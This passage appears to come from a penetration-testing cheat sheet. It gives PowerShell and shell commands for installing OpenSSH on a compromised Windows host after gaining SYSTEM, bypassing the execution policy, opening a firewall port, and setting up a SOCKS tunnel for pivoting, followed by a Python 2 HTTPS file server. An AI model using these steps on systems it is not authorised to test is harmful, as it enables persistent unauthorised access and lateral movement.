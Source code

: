 #### Openssh for Tunneling

Once you got SYSTEM on the target machine. download: [openssh_for_windows](https://github.com/PowerShell/Win32-OpenSSH/releases)

```powershell
powershell -command "Expand-Archive 'C:\<path-to-zipped-openssh>\openssh.zip' c:\<path-to-where-you-whereever-you-want\"
```

Then install it:

```powershell
powershell -ExecutionPolicy Bypass -File c:\<path-to-unzipped-openssh-folder>\install-sshd.ps1
```

Now if you need, just adjust the firewall rules to your needs:

```powershell
powershell -Command "New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22"
```

Start the sshd service:

```powershell
net start sshd
```

After these steps a regular ssh tunnel would sufice:

From your linux machine:

```bash
$ ssh -ACv -D <tunnel_port> <windows-user>@<windows-ip>
```

done you have now a socks to tunnel through!!


##

# Resources

##

#### HTTP/HTTPS Servers


HTTPS using Python

Create the Certificate:

```
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

Start the HTTPS Server

```
import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```
## Wordlists
